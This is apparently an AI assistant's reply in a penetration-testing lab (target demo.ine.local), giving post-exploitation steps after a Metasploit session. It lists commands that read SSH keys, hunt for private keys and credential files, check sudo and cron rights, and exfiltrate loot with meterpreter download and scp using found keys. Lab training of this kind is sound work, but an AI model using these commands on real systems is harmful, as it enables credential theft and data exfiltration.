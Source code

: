 You executed `sessions -i 1` and searched for the flag — that's perfect. Here are expanded, recommended steps to enumerate a newly obtained shell safely.

1. Identify user and environment

```
whoami
id
hostname
uname -a
cat /etc/os-release

# Check home directory and ssh keys
ls -la ~
ls -la ~/.ssh
cat ~/.ssh/authorized_keys
```

2. Quickly hunt for sensitive files (non-destructive)

```bash
# Search common locations for credential files, keys, or flags (limit scope)
find /home -maxdepth 3 -type f \( -name "*id_rsa*" -o -name "*key*" -o -name "*.pem" \) -print 2>/dev/null
find /var/www -maxdepth 3 -type f -name "*.php" -print 2>/dev/null
find / -name "flag" -maxdepth 5 2>/dev/null || true
```

3. Check sudo privileges and scheduled tasks

```
sudo -l            # list sudo rights
crontab -l          # cron jobs for current user
ls -la /etc/cron.*  # system cron jobs
```

4. Harvest and exfiltrate evidence safely

- Use `tar` and `gzip` to package small evidence files.
- Use Metasploit's `download` (meterpreter) or `scp` to securely copy files to your analysis machine.

Example (meterpreter):

```
# inside meterpreter session
download /path/to/file /local/path
```

Example (scp from your attack box using found creds/key):

```bash
scp -i found_id_rsa user@demo.ine.local:/path/to/interesting.file ./loot/
```

---

## Pivoting & lateral movement (brief)
